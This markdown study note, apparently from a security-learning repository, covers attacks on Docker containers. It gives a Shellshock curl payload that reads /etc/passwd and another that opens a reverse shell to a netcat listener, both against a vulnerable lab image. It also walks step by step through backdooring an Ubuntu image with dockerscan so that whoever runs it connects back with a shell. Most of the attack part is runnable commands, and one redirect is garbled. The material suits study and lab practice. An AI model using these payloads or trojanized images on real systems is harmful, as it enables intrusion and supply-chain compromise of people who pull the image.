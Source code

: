 # Hacking and Securing Docker Containers v2.0


Some of the notes that is specially outside from the [general notes](../Notes.md). 

Things that we will be looking at are:
- Introduction to Docker
- Docker fundamentals
- Attacks against docker environments
- Automated Assessments
- Defenses

---

## Hacking Docker Containers
### Docker Attack Surface
- External attackers using API
- Malicious insiders
- Compromised container (modified image)

### Exploting vulnerable images
This image has the vulnerability of a shellshock, affected many services (http, smtp, ssh)
[Image link](https://hub.docker.com/r/vulnerables/cve-2014-6271)
```bash
docker run --rm -it -p 8080:80 vulnerables/cve-2014-6271
```

Curl the command line to get the list of the password
```bash
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://localhost:8080/cgi-bin/vulnerable
```

Curl the command line below to do a interative accessing the container
```bash
# Terminal 1
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/172.17.0.1/4444 @>&l'" http://localhost:8080/cgi-bin/vulnerable

# Terminal 2: You can access data in the docker container
nc -nlvp 4444

```
Why 172.17.0.1? Use `ipconfig docker0` to get the ip address from the inet

### Backdooring docker images
```bash
git clone https://github.com/cr0hn/dockerscan.git
sudo python3.8 setup.py install

# Verify dockerscan is installed
dockerscan

# Change directory to backdoor and remove everything
cd ..
cd backdoor
rm -rf *

# Pull the latest ubuntu image and save it as a new tar image
docker pull ubuntu:latest && docker save ubuntu:latest -o ubuntu-original

# Setting some environment variable
export LC_ALL=C.UTF-8
export LANG=C.UTF-8

# Finding the ip address to be used for backdooring
ipconfig docker0
### inet 172.17.0.1 <---- this ip address is the one we will be using

# Modifying the image
dockerscan image modify trojanize ubuntu-original -l 172.17.0.1 -p 4444 -o ubuntu-original-trojanized

# Terminal 1: To receive the reversed shell, and use the interative
nc -v -k -l 172.17.0.1 4444

# When someone pull your image
docker load -i ubuntu-original-trojanized.tar
docker run -it ubuntu:latest bash

# You can access it from Terminal 1
```
